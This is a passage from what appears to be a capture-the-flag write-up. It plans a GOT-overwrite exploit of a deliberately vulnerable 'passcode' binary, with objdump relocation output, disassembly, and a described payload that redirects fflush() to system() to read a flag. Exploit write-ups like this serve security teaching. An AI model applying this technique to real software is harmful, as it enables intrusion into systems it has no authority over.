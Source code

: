 For more information I encourage you to read these papers, as this is only droplet in the ocean of knowledge:

[https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

[www.infosecwriters.com/text_resources/pdf/GOT_Hijack.pdf](www.infosecwriters.com/text_resources/pdf/GOT_Hijack.pdf)

Now we can write down our full plan for attack. Firstly, we can use `fflush()` function as our victim that we can overwrite. Function that will be overwriting will be `system("/bin/cat flag");`. So we have to find addresses of both of them. Then we will pass to the `passcode1` address of the `fflush()` function, by simply fullfilling the `name` buffer. After that using the first `scanf()` we will be ready to overwrite the `fflush()` function with `system()`. After that all should be ready. 

But firstly, let's find the address of the `fflush()`, what we can do with `objudmp -R` command. 

{% highlight text %}
-R
--dynamic-reloc
Print the dynamic relocation entries of the file.  This is only
meaningful for dynamic objects, such as certain types of shared
libraries.  As for -r, if used with -d or -D, the relocations are
printed interspersed with the disassembly.
{% endhighlight %}


{% highlight bash %}
passcode@ubuntu:~$ objdump -R passcode
passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
{% endhighlight %}

See? Here we have it `0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2`.

Now from the previous disassembly, we cavn view the address of the `system()` function. 

{% highlight assembly %}
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
{% endhighlight %}

And we're ready to craft the payload - 96 'A' letters, address of the `fflush()` function and to satisfy the `scanf()` - address of the `system()` function. 
